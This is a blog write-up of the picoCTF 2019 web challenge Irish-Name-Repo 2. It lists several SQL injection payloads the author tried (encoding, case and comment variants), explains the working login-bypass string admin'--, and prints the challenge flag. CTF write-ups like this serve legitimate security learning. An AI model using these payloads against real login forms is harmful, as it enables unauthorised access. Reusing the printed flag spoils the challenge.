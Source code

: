 ```yaml
---
Title: Irish-Name-Repo 2 - picoCTF '19 (web)
Description: 
Author: David Disu
Date: 2025-09-07T21:57:46.000Z
Robots: noindex,nofollow
Template: index
---
```

<p><a href="https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Fk01z47emxfryc7h64j22.png" class="article-body-image-wrapper"><img src="https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Fk01z47emxfryc7h64j22.png" alt="Challenge description" width="800" height="467"></a></p>

<p>Coming from this challenge's prequel <a href="https://dev.to/davidonlinearchive/irish-name-repo-1-picoctf-19-web-16ka">Irish-Name-Repo 1 - picoCTF '19</a>, I was hellbent thinking I had to encode the password parameter. I tried several SQL injection variations, including:<br>
<code>' oR 1=1 --</code> - case manipulation<br>
<code>%27%20%20%6f%72%20%31%3d%31%20%2d%2d</code>- URL encoding<br>
<code>'/**/ or /**/ 1=1 /**/ --</code> - Comment obfuscation <br>
<code>00%' or 1=1 --</code> - null hex encoding<br>
...and other combinations but to no avail. Once I shifted my attention, the solution became straightforward.</p>

<p><strong>STEPS TO SOLUTION</strong><br>
use <code>admin'--</code> in the username parameter. </p>

<p><strong>Breakdown:</strong></p>

<ul>
<li>
<code>admin</code> - value for username query. </li>
<li>
<code>'</code> - closes the input string.</li>
<li>
<code>--</code> - comments out the remaining query.</li>
</ul>

<p><a href="https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Fksui9e78y3476b6cf0lb.png" class="article-body-image-wrapper"><img src="https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Fksui9e78y3476b6cf0lb.png" alt="Challenge solved" width="800" height="249"></a></p>

<p><strong>FLAG:</strong> <em>picoCTF{m0R3_SQL_plz_fa983901}</em></p>

<p><strong>PWNSOME REFERENCES</strong><br>
<a href="https://portswigger.net/support/sql-injection-bypassing-common-filters" rel="noopener noreferrer">https://portswigger.net/support/sql-injection-bypassing-common-filters</a><br>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" rel="noopener noreferrer">https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection</a></p>

